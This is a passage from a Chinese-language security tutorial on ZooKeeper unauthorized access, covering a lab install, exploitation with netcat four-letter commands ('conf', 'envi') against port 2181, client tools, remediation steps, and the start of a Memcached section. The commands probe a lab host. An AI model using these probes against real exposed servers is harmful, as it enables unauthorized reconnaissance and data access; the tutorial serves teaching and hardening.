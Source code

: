 ```bash
root@kali:~/下载# wget https://archive.apache.org/dist/zookeeper/zookeeper-3.4.14/zookeeper-3.4.14.tar.gz
root@kali:~/下载# tar -xzvf zookeeper-3.4.14.tar.gz 
root@kali:~/下载# cd zookeeper-3.4.14/conf
root@kali:~/下载/zookeeper-3.4.14/conf# mv zoo_sample.cfg zoo.cfg
root@kali:~/下载/zookeeper-3.4.14/conf# ../bin/zkServer.sh start 
```

## 漏洞利用

输出相关服务配置的详细信息，端口、数据路径、日志路径、session 超时时间，最大连接数等。

```bash
root@NC:/mnt/c/Users# echo conf | nc 192.168.211.129 2181
clientPort=2181
dataDir=/tmp/zookeeper/version-2
dataLogDir=/tmp/zookeeper/version-2
tickTime=2000
maxClientCnxns=60
minSessionTimeout=4000
maxSessionTimeout=40000
serverId=0
```

输出服务器的详细信息。

```bash
root@NC:/mnt/c/Users# echo envi | nc 192.168.211.129 2181
```

如在kali下，可以用如下命令安装zookeeper工具，之后即可使用客户端连接工具zkCli.sh

```bash
root@kali:~# apt-get install zookeeper
root@kali:/usr/share/zookeeper/bin# ./zkCli.sh -server xx.xx.xx.xx:2181
```

利用[zookeeper可视化管理工具](https://issues.apache.org/jira/secure/attachment/12436620/ZooInspector.zip)查看

![img](https://xzfile.aliyuncs.com/media/upload/picture/20190828090607-044632b2-c930-1.jpg)

![img](https://xzfile.aliyuncs.com/media/upload/picture/20190828090608-04587382-c930-1.jpg)

## 漏洞修复

1. 修改 ZooKeeper 默认端口，采用其他端口服务。
2. 添加访问控制，配置服务来源地址限制策略。
3. 增加 ZooKeeper 的认证配置。

# Memcached 未授权访问

Memcached 是一套常用的 key-value 分布式高速缓存系统，由于 Memcached  的安全设计缺陷没有权限控制模块，所以对公网开放的Memcache服务很容易被攻击者扫描发现，攻击者无需认证通过命令交互可直接读取  Memcached中的敏感信息。

